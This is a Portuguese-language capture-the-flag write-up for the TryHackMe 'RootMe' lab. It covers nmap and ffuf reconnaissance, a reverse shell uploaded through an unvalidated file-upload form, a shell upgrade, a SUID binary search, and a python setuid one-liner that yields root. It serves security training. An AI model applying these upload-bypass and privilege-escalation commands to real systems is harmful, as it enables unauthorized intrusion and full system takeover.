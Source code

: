 # ROOTME WRITEUP - TRYHACKME

este é um repositório rápido, explicando como conseguir ter acesso e rootar a máquina [rootme](https://tryhackme.com/room/rrootme) do tryhackme.



### OUTPUT DO NMAP 
```
nmap -sV -T5 -vvv -p- 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### BRUTE FORCE DE DIRETÓRIOS UTILIZANDO O FFUF

```
ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/wordlists/common.txt
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```
encontrei dois diretórios interessante de analizar, que era o **panel** e **uploads**.

existia uma vulnerabilidade de upload de arquivo.
entrando no diretório podemos obter uma lista de arquivos upados, mas por enquanto o diretório ainda estava vazio.

entrando no diretório /panel encontramos um form de upload, no qual poderiamos upar um arquivo para obter uma reverse shell. 
obtive uma shell no site [reverse shells](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html)

Parece que o servidor não validava o tipo de arquivo que está sendo carregado, pelo menos .phtml ele não validava, portanto, podemos carregar nosso arquivo malicioso para obter uma reverse shell

Recebi um aviso dizendo que a shell foi upada. Entrei no diretório /uploads e lá estava meu arquivo malicioso, apenas executei e recebi a shell no meu netcat que estava rodando com a porta 1337 em modo de escuta.

### OBTENDO UMA SHELL MELHOR

Utilizando o modulo do python 'pty', usei um comando para dar um upgrade na minha shell utilizando o comando: 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

Obtive a primeira flag que estava no diretório /home/$USER/user.txt

### BUSCANDO ARQUIVOS BINÁRIOS COM PERMISSÃO SUID

```
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

Podemos ver o python com essas permissões. 

### PRIVESC NA MÁQUINA

Já que tinhamos o python executando com permissões elevadas, logo busquei uma maneira de elevar meus privilegios para root.
O [GTFOBin](https://gtfobins.github.io/) tem vários métodos de escalação de privações que podemos usar.

```
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)

```

e assim conseguimos root e a flag root no diretório /root/root.txt
